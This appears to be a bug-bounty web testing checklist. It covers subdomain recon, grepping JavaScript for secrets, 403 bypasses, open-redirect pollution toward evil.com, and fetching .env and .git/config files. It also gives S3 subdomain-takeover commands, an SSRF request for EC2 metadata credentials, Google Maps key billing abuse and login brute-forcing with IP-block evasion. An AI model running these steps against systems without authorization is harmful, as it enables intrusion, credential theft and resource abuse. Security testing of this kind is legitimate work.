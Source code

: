 ✓ ✗ ✔ ✘ ✅
For Recon : 
[ ] - Use this command under a folder named as Target
	```assetfinder --subs-only target.com >> recon.txt  
	subfinder -d target.com -silent >> recon.txt  
	amass enum -passive -d target.com >> recon.txt  
	sort -u recon.txt > final-subs.txt
	cat final-subs.txt | httpx -status-code -title -tech-detect -silent > live-subs.txt```
[ ] - Check for `robots.txt` and `sitemap.xml` for subdomains and directories
[ ] - Checking for Secrets in JS FIles
	1. Download all the JS Files present.
	2. Use the command to grep the secrets, keys and tokens : 		```
		cat js_files.txt | while read url; do curl -s $url >> all_javascript_dump.txt; done  
		grep -iE "apikey|token|secret|authorization|bearer" all_javascript_dump.txt```
[ ] - Bruteforce checking all JS Files : `ffuf -w common.txt -u https://target.com/assets/js/FUZZ`
[ ] - Always check User Agent for for Logs, it may give RFi
[ ] - Checking for 403 Forbidden : 
	[ ] - **Adding headers** (like `X-Forwarded-For`, `X-Originating-IP`)
	[ ] - **Trying HTTP methods** (`GET`, `POST`, `HEAD`, `OPTIONS`)
	[ ] - **Using URL encoding tricks** (`%2e`, `%2f`, etc.)
	[ ] - **Appending a dot (**`**.**`**) or a slash (**`**/**`**) at the end**
	[ ] - **Spoofing the Referer header** (`Referer: example.com/allowed-page`)
[ ] - Check for the parameter named `redirect` that is used to redirect the site to the internal sites and then try to pollute it like : `https://app.target.com/login?redirect=dashboard&redirect=https://evil.com`
[ ] - Required payloads to be tried once : 
	```curl https://target.com/config/settings_dev.json
	curl https://target.com/.env
	curl https://target.com/.git/config```
[ ] - Check for the Technology used in the website. If it's Wordpress then : 
	[ ]  -Try using a wp-scan with the API Key to get a full report.
	[ ] - Check the notes in INE-WAPT -> CMS Security Testing
	[ ] - 
[ ] - Check for AWS Buckets : 
	[ ] - Check CNAME using the command : `dig old-staging.target.com CNAME` . If the result looks like this : `old-staging.target.com.  300 IN CNAME  old-target-dev.s3-website-us-east-1.amazonaws.com.` Then use the command : `aws s3 ls s3://old-target-dev` to check for the existence of the bucket.
	If this has happened this shows that, the origin S3 bucket was gone, but is still present as the CNAME of the target. Now we can own the bucket under our account using the command : `aws s3 mb s3://old-target-dev` . Create a simple HTML Page to host the website. Upload it using the command : ```aws s3 website s3://old-target-dev --index-document index.html
	aws s3 cp index.html s3://old-target-dev/ --acl public-read```
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
	Then to chain it with SSRF, we can use this command by making some changes into it  : `curl -X POST http://old-staging.target.com/api/render -d '{"url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/EC2Role"}'`
[ ] - API Keys
	[ ] - Google Maps API Key Exposure Impact - 
		[ ] - Check with this command if we get any response or not : `curl "https://maps.googleapis.com/maps/api/geocode/json?address=Delhi&key=<exposed-key>" `      
		[ ] -  Check for High Billing Impact : 
		```for i in {1..10}; do
		curl "https://maps.googleapis.com/maps/api/geocode/json?address=New+York+$i&key=<exposed-apikey>"
		done```
		[ ] - Check for Directions API : `curl "https://maps.googleapis.com/maps/api/directions/json?origin=Delhi&destination=Mumbai&key=<exposed-apikey>"`
		 [ ] - Check for DistanceMatrix API : `curl "https://maps.googleapis.com/maps/api/distancematrix/json?origins=Delhi&destinations=Bangalore&key=<exposed-apikey>"`
		 [ ] - Check for Places API : `curl "https://maps.googleapis.com/maps/api/place/textsearch/json?query=restaurants+in+Goa&key=<exposed-apikey>"`
		 [ ] - Create an HTML Page and try to use the key and get the services running : Go check out the Google MAP API Key Exploitation Page
[ ] - Authentication Attacks : 
1. Brute-forcing the username to get a valid username by checking precisely over the response packets.
2. If the Server blocks your IP, then try to use a Header in the Response Packet named as `X-Forarded-For:` and use a Pitchfork Attack and provide this with a random number set. Keep an eye on the response use the settings like : Grep-by Match, Response Timing Delays.
[ ] - Check for CORS
	1. by just adding this in the Request Packet : `Origin: https://example.com` and then check for the response if we observe the same URL in Response in `Access-Control-Allow-Origin` then we can exploit it by displaying that onto our website.
	2. Check by adding `null` if the above doesn't work out, and if the null works out then we can also generate Cross-origin requests.
	3. 


